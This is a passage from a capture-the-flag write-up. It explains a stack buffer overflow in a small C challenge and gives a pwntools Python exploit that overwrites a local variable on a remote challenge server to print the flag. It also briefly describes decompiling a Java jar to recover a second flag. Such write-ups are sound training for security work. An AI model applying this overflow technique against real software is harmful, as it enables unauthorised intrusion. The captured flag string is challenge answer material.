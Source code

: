 ```C
    if(flag == 0x45454545){
        print_flag();
    }
    else{
        printf("Too bad! The flag is 0x%x\n", flag);
    }

    return 0;
}
```
In basic explanation of the code, it has 2 function that is print_flag(which is our goal) and main function. The main function sets an integer flag to 0xaabdcdee and initializes a buffer of 50 bytes. Then it asks a basic question of entering your favorite number. Then it does fgets of 0x50(80 bytes). There vuln there is buffer overflow since we can add more bytes than the declared ones which were 50 bytes. Next is an if statement which has the flag set to a value and if that value is called then it calls the print_flag function which has our flag. So to develop our exploit:

```python

from pwn import *

binary = context.binary = ELF("./buffer", checksec=False)
# target = process()
target = remote("chall.pwnoh.io", 13372)

buf = b"A"*50 + b"B"*8 
flag = p64(0x45454545)
payload = buf + flag
target.recvuntil(b"number:")
target.sendline(payload)
target.interactive()

# flag: bctf{wHy_WriTe_OveR_mY_V@lUeS}
``` 
We first write 50 bytes to the buffer then 8 more to reach rbp address then we can enter the desired flag address. 


#### Currency Converter
We are provided with a converter.jar file. Opening this with jd-gui and going to converter class, we get the flag.
![image](b2.png)
